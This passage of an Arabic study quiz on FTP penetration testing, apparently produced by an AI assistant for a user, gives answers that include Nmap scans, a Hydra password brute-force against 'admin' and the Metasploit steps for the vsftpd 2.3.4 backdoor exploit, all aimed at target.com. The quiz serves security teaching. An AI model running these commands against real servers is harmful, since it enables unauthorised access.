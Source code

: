 #### 35. حلل العلاقة بين فحص FTP وأمن خادم الويب.
**الإجابة:** فحص FTP يكشف ثغرات قد تؤثر على الويب إذا كانت الملفات مشتركة.

---

### **أسئلة الكود**

#### 36. اكتب كود الأمر لفحص منفذ 21 على target.com باستخدام Nmap.
**الإجابة:** nmap -p 21 target.com

#### 37. اكتب كود الأمر لمعرفة إصدار FTP على target.com باستخدام Nmap.
**الإجابة:** nmap -p 21 -sV target.com

#### 38. اكتب كود الأمر لاختبار الثغرات في FTP على target.com باستخدام Nmap.
**الإجابة:** nmap --script=ftp-vuln* target.com

#### 39. اكتب كود الأمر لتخمين كلمات المرور على target.com باستخدام Hydra.
**الإجابة:** hydra -l admin -P passwords.txt ftp://target.com

#### 40. اكتب كود الأمر لاستغلال ثغرة vsftpd 2.3.4 على target.com باستخدام Metasploit.
**الإجابة:** msfconsole ثم use exploit/unix/ftp/vsftpd_234_backdoor و set RHOST target.com و exploit

---

### **أسئلة الخلاصة**

#### 41. قولي الخلاصة بتاعة الجزء الخاص بـ "ما هو FTP؟".
**الإجابة:** FTP هو بروتوكول لنقل الملفات، وفحصه يكشف الإعدادات والثغرات.

#### 42. قولي الخلاصة بتاعة الجزء الخاص بـ "أدوات فحص FTP بالتفصيل".
**الإجابة:** تشمل Nmap لاكتشاف الخادم، Hydra لكلمات المرور، وMetasploit للثغرات.

#### 43. قولي الخلاصة بتاعة الجزء الخاص بـ "خطوات عملية لاختبار اختراق FTP".
**الإجابة:** تتضمن اكتشاف المنفذ، اختبار الدخول المجهول، فحص كلمات المرور والثغرات.

#### 44. قولي الخلاصة بتاعة الجزء الخاص بـ "الخلاصة النهائية".
**الإجابة:** فحص FTP يكشف المنافذ والإعدادات والثغرات باستخدام أدوات لتأمين الخادم.

---

تم تنسيق الأسئلة والإجابات حسب طلبك، مع تغطية كل جزء في النص! لو تحتاجين أي تعديل، قولي لي!